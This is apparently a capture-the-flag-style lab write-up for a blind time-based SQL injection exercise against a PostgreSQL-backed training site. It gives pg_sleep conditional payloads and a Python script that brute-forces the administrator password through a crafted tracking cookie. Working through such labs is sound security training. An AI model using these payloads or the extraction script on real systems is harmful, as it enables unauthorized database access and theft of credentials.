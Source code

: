 # Lab: Blind SQL injection with time delays and information retrieval
## Task
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solution
Firstly, I found this payload worked:  
```
'||(SELECT+CASE+WHEN(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```
> The database is PostgreSQL.  


Then, with the following payload, I knew that the password's length is 20:  
```
'||(SELECT+CASE+WHEN(LENGTH((SELECT+password+FROM+users+WHERE+username='administrator'))=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```  

Next, the payload to figure out each letter is:  
```
'||(SELECT+CASE+WHEN(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```

Script:  
```python
import requests
import string
import time
from concurrent import futures
from concurrent.futures import ThreadPoolExecutor

URL = 'https://acab1f961f04ecd68015019c00fc00c0.web-security-academy.net/filter?category=Lifestyle'
alphas = list(string.ascii_lowercase)
alphas.extend(list(string.ascii_uppercase))
alphas.extend(list(string.digits))

def brute(i):
    for j in alphas:
        print(f"\r{(i, j)}", end="")
        COOKIES =  {'TrackingId':f"HDE8HzOmqiPAyRBY'||(SELECT+CASE+WHEN(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)='{j}')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END)--",
        'session':'zborbpfMUYHP1DUkgOtF1WID4ymPSr9G'}
        start = time.perf_counter()
        resp = requests.get(URL, cookies=COOKIES)
        elapsed = time.perf_counter() - start
        if elapsed > 2:
            return j

res = []
for i in range(1, 21):
    res.append(brute(i))
print(''.join(res))
```

Run script:
```
(env) PS E:\CTF> py .\intruder.py
(20, '0')x0mvpsnoq9ayf567jms0
```

Login:  

![image](https://user-images.githubusercontent.com/44528004/130177303-92b50ce6-4548-4ed7-a86f-f6041d3d44d3.png)  


![image](https://user-images.githubusercontent.com/44528004/130177354-9cc83e05-6e01-4ed0-a4ad-e464f081d128.png)
> Solved!
